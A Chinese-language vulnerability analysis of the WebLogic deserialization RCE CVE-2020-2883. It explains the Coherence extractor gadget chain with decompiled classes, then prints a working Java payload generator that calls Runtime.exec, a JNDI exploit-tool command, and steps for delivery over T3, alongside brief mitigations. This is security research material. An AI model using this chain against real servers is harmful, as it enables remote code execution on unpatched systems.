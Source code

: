 # Weblogic 反序列化RCE漏洞分析(CVE-2020-2883) 

### 靶场搭建

#### 本地搭建

下载地址：
https://www.oracle.com/middleware/technologies/fusionmiddleware-downloads.html

- weblogic 10.3.6.0
- weblogic 12.1.3.0
- weblogic 12.2.1.4
- weblogic 14.1.1.0.0

#### docker搭建

```yaml
version: '3.7'
services:
 weblogic:
   image: store/oracle/weblogic:12.2.1.4
   volumes:
    - ./properties:/u01/oracle/properties
   environment:
    - DOMAIN_NAME=base_domain
   ports:
    - "7001:7001"
    - "8453:8453"
    - "9002:9002"
```

### 漏洞分析

关于JdbcRowSetImpl、PriorityQueue、ExtractorComparator利用链的分析请看[上一篇文章](https://www.studysec.com/#/papers/java/weblogic/CVE-2020-14841)

概况一下就是已知漏洞利用点和前半截利用链，只需要找到一个不在反序列化黑名单中且内部extract方法存在危险代码的类。

CVE-2020-2883执行链： 
T3协议 -> PriorityQueue -> ExtractorComparator -> ChainedExtractor -> ReflectionExtractor -> RCE

也就是说，该漏洞的关键点依旧是找一个具有符合要求的extract方法的类。

### ReflectionExtractor

```java
//com.tangosol.util.extractor.ReflectionExtractor

public class ReflectionExtractor<T, E> extends AbstractExtractor<T, E> implements ValueExtractor<T, E>, ExternalizableLite, PortableObject {
    @JsonbProperty("method")
    protected String m_sMethod;
    @JsonbProperty("args")
    protected Object[] m_aoParam;
    private transient Method m_methodPrev;

    public ReflectionExtractor(String sMethod, Object[] aoParam, int nTarget) {
        azzert(sMethod != null);
        //getMethodName()返回this.m_sMethod
        this.m_sMethod = sMethod;
        //m_aoParam是下面反射调用类方法时传入的参数
        this.m_aoParam = aoParam;
        this.m_nTarget = nTarget;
    }

    public E extract(T oTarget) {
        if (oTarget == null) {
            return null;
        } else {
            Class clz = oTarget.getClass();

            try {
                //this.m_methodPrev的值被transient修饰，无法控制
                Method method = this.m_methodPrev;
                if (method == null || method.getDeclaringClass() != clz) {
                    //在此处获取传入的对象的所属类的method
                    this.m_methodPrev = method = ClassHelper.findMethod(clz, this.getMethodName(), ClassHelper.getClassArray(this.m_aoParam), false);
                }
                //通过反射执行类方法
                return method.invoke(oTarget, this.m_aoParam);
            } catch (NullPointerException var4) {
                throw new RuntimeException(this.suggestExtractFailureCause(clz));
            } catch (Exception var5) {
                throw ensureRuntimeException(var5, clz.getName() + this + '(' + oTarget + ')');
            }
        }
    }
}
```

从上面的流程看，最终```return method.invoke(oTarget, this.m_aoParam);```，所有值都可控，理论上是可以满足需要的。

关键点在于this.m_methodPrev无法控制，且直接使用ReflectionExtractor的话，只能获取一次method，非常不灵活。

因此必须找一个能多次调用ReflectionExtractor.extract，且值是我们可控的类

#### ChainedExtractor

让我们来看看这个类在官方手册中怎么描述：
```
Composite ValueExtractor implementation based on an array of extractors. The extractors in the array are applied sequentially left-to-right, so a result of a previous extractor serves as a target object for a next one. 
```

大意是ChainedExtractor将ValueExtractor的值从左到右串联起来，前一个提取器的结果将作为下一个提取器的目标对象。

ChainedExtractor.extract代码：

```java
//com.tangosol.util.extractor.ChainedExtractor

public E extract(Object oTarget) {
    //获取一个ValueExtractor对象数组
    ValueExtractor[] aExtractor = this.getExtractors();
    int i = 0;

    for(int c = aExtractor.length; i < c && oTarget != null; ++i) {
        //遍历ValueExtractor对象数组中存储的对象，调用其extract方法
        oTarget = aExtractor[i].extract(oTarget);
    }

    return oTarget;
}
```

在ChainedExtractor中并没有实现getExtractors()方法，这里调用的是它的父类AbstractCompositeExtractor.getExtractors()

```java
public class ChainedExtractor<T, E> extends AbstractCompositeExtractor<T, E> 
```

getExtractors()返回的是this.m_aExtractor的值，this.m_aExtractor在构造方法中赋值。

```java
public AbstractCompositeExtractor(ValueExtractor[] aExtractor) {
    azzert(aExtractor != null);
    this.m_aExtractor = aExtractor;
}
```

分析完就觉得，ChainedExtractor和ReflectionExtractor本来就是搭配在一起用的，前者用来帮助后者构造反射的调用链。

但是反射调用得先有个类名，需要找一个Class.extract能直接返回类名给ChainedExtractor.extract的oTarget。

这里使用了ConstantExtractor类。

```java
public class ConstantExtractor implements ValueExtractor {
    protected Object m_oConstant;

    public ConstantExtractor(Object oValue) {
        this.m_oConstant = oValue;
    }

    public Object extract(Object oTarget) {
        return this.m_oConstant;
    }
}
```

#### payload

生成的payload.ser通过T3协议发送

```java
public class CVE_2020_2883 {

    public static void main(String[] args) throws Exception {

        ValueExtractor[] valueExtractors = new ValueExtractor[]{
            new ConstantExtractor(Runtime.class),
            new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[0]}),
            new ReflectionExtractor("invoke", new Object[]{null, new Object[0]}),
            new ReflectionExtractor("exec", new Object[]{new String[]{"cmd.exe", "/c", "calc"}})
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(valueExtractors);

        ExtractorComparator extractorComparator = new ExtractorComparator<Object>();
        Field m_extractor = extractorComparator.getClass().getDeclaredField("m_extractor");
        m_extractor.setAccessible(true);
        m_extractor.set(extractorComparator, chainedExtractor);

        PriorityQueue priorityQueue = new PriorityQueue();
        priorityQueue.add("foo");
        priorityQueue.add("bar");

        Field comparator = priorityQueue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, extractorComparator);

        serialize(priorityQueue);
        deserialize();
    }

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("test.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### 漏洞修复

1. 禁用T3、IIOP协议

2. 通过Oracle官网获取并安装最新补丁

### 漏洞利用

```
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc"
```

启动ldap服务器

生成序列化payload.ser

通过T3协议发送payload.ser

![avatar](../../../../images/java/weblogic/CVE-2020-2883/2.png)

### PSF案例

![avatar](../../../../images/java/weblogic/CVE-2020-2883/1.png)
